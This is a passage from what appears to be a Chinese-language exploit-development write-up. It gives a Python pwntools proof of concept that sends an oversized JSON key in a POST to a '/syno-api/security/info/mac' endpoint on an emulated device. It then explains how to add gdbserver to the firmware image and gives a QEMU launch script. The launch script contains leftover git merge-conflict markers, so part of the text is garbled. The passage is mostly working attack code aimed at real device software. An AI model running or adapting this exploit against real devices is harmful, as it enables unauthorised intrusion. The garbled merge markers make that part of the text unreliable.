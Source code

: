 ```plain
ip = '127.0.0.1'
port = 8801

r = remote(ip, port)

p1 = b'a ' + b'a' * 0x30

value = b'""'
json = b'{"' + p1 + b'": ""}'
li(json)

rn = b'\r\n'

p3 = b''
p3 += b'POST /syno-api/security/info/mac HTTP/1.1' + rn
p3 += (b"Content-Length: %d" % len(json)) +rn
p3 += b'Host: 127.0.0.1:8801' + rn
p3 += b'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"' + rn
p3 += b'Accept: text/plain, */*; q=0.01' + rn
p3 += b'Content-Type: application/json' + rn
p3 += b'X-Requested-With: XMLHttpRequest' + rn
p3 += b'sec-ch-ua-mobile: ?0' + rn
p3 += b'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36' + rn
p3 += b'sec-ch-ua-platform: "macOS"' + rn
p3 += b'Origin: http://127.0.0.1:8801' + rn
p3 += b'Sec-Fetch-Site: same-origin' + rn
p3 += b'Sec-Fetch-Mode: cors' + rn
p3 += b'Sec-Fetch-Dest: empty' + rn
p3 += b'Referer: http://127.0.0.1:8801/' + rn
p3 += b'Accept-Encoding: gzip, deflate' + rn
p3 += b'Accept-Language: zh-CN,zh;q=0.9' + rn
p3 += b'Cookie: sid=sBmrHHr4XX4TKaIjv0Vw6L3I15y46m47DO9qeF79CPjquIMOAHX6ygmRJ2AaNleg' + rn
p3 += b'Connection: close' + rn
p3 += rn
p3 += json

li('[+] sendling payload')
r.send(p3)

r.interactive()
```

接着需要去调试一下这个 Poc，看一下能否控制程序执行流，下载对应架构的 gdbserver 到文件系统中，然后 `find . | cpio -o --format=newc > ../player.cpio` 打包一下，重新启动就可以使用 gdbserver 了

添加 gdbserver 的映射端口

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
#!/bin/sh
qemu-system-arm \
    -m 1024 \
    -M virt,highmem=off \
    -kernel zImage \
        -initrd player.cpio \
    -nic user,hostfwd=tcp:0.0.0.0:8801-:80,hostfwd=tcp:0.0.0.0:8802-:8802,hostfwd=tcp:0.0.0.0:1234-:1234 \
    -nographic
```

